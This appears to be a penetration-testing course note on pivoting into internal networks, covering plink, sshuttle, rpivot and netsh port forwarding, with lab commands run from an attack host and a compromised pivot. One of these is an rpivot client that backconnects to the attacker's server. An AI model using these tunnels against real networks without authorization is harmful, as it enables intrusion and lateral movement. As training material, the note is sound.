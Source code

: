 ## SSH for Windows: plink.exe

[Plink](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html), sort for PuTTY Link, is a Windows command line SSH tool that comes as part of the PuTTY package when installed. It can also be used to create dynamic port forwards and SOCKS proxies. Before the Fall of [2018](https://docs.microsoft.com/en-us/windows-server/administration/openssh/openssh_overview) there was no native SSH client included with Windows, so [PuTTY](https://www.putty.org/) was a popular choice.

### Getting to Know Plink

![[66.webp]]

The Windows attack host starts a plink.exe process, to create a dynamic port forwarding over the Ubuntu server.

#### Using Plink.exe
```cmd-session
plink -ssh -D 9050 ubuntu@10.129.15.50
```

[Proxifier](https://www.proxifier.com) can be used to start a SOCKS tunnel via the SSH session we created. Proxifier creates a tunneled network which can operate through a SOCKS or HTTPS proxy and allows for proxy chaining. It is possible to create a profile where we can provide the configuration for our SOCKS server started by Plink on port 9050.

![[reverse_shell_9.webp]]

With the profile, we can now directly start mstsc.exe to start an RDP session with a Windows target.

## SSH Pivoting with sshuttle

[Sshuttle](https://github.com/sshuttle/sshuttle) is a tool written in python which removes the need to configure proxychains. However it only works for SSH, and not other options like TOR and HTTPS proxy servers. It can be very useful for automating the execution of iptables and adding pivot rules for the remote host.

### Installing sshuttle
```shell-session
$ sudo apt-get install sshuttle
```

We can use the option `-r` to connect to a remote machine.

### Running sshuttle
```shell-session
$ sudo sshuttle -r ubuntu@10.129.202.64 172.16.5.0/23 -v 
```

With this command, sshuttle creates an entry in our `iptables` to redirect all traffic to the 172.16.5.0/23 network through the pivot host.

### Traffic Routing through iptables Routes
```shell-session
$ nmap -v -sV -p3389 172.16.5.19 -A -Pn
```

We can now use any tool directly without using proxychains.

## Web Server Pivoting with Rpivot

[Rpivot](https://github.com/klsecservices/rpivot) is a reverse SOCKS proxy tool written in Python for SOCKS tunneling. It binds a machine inside corporate network to an external sever and exposes the client's local port on the sever side. In the scenario below we want to access the internal web server.

![[77.webp]]

We can start our rpivot SOCKS proxy server to allow the client to connect on port 9999 and listen on port 9050 for proxy pivot connections.

### Cloning rpivot
```shell-session
$ sudo git clone https://github.com/klsecservices/rpivot.git
```

### Installing Python2.7
```shell-session
$ sudo apt-get install python2.7
```

### Running Sever.py from the Attack Host
```shell-session
$ python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```

### Transfering rpivot to the Target
```shell-session
$ scp -r rpivot ubuntu@<IpaddressOfTarget>:/home/ubuntu/
```

### Running client.py from Pivot Target
```shell-session
$ python2.7 client.py --server-ip 10.10.14.18 --server-port 9999

Backconnecting to server 10.10.14.18 port 9999
```

### Confirming Connection is Established
```shell-session
New connection from host 10.129.202.64, source port 35226
```

We will configure proxychains to pivot over our local server on 127.0.0.1:9050 on our attack host, which was initially started by the Python server.

### Browsing the Target Web Server using Proxychains
```shell-session
proxychains firefox-esr 172.16.5.135:80
```

In some cases external servers may require authentication, some organizations have [HTTP-proxy with NTLM authentication](https://docs.microsoft.com/en-us/openspecs/office_protocols/ms-grvhenc/b9e676e7-e787-4020-9840-7cfe7c76044a) configured with the domain controller. In such cases we can provide additional NTLM authentication option to rpivot.

### Connection to a Web Server using HTTP-Proxy & NTLM Auth
```shell-session
python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>
```

## Port Forwarding with Windows Netsh

[Netsh](https://docs.microsoft.com/en-us/windows-server/networking/technologies/netsh/netsh-contexts) is a Windows command line tool that can help with the network configurations of a particular Windows system. Here are just some of the networking related tasks we can use Netsh for:

- `Finding routes`
- `Viewing the firewall configuration`
- `Adding proxies`
- `Creating port forwarding rules`

Lets take the example below where we compromised the Windows10 User.

![[88.webp]]

We can use `netsh.exe` to forward all data received on a specific port (say 8080) to a remote host on a remote port.

### Using Netsh.exe to Port Forward
```cmd-session
C:\Windows\system32> netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.42.198 connectport=3389 connectaddress=172.16.5.25
```

### Verify Port Forward
```cmd-session
C:\Windows\system32> netsh.exe interface portproxy show v4tov4

Listen on ipv4:             Connect to ipv4:

Address         Port        Address         Port
--------------- ----------  --------------- ----------
10.129.42.198   8080        172.16.5.25     3389
```

After configuring portfroxy on our Windows-based pivot host, we will try to connect to the 8080 port of this host from our attack host using xfreerdp.

### Connecting to the Internal Host through the Port Forward
![[netsh_pivot.webp]]

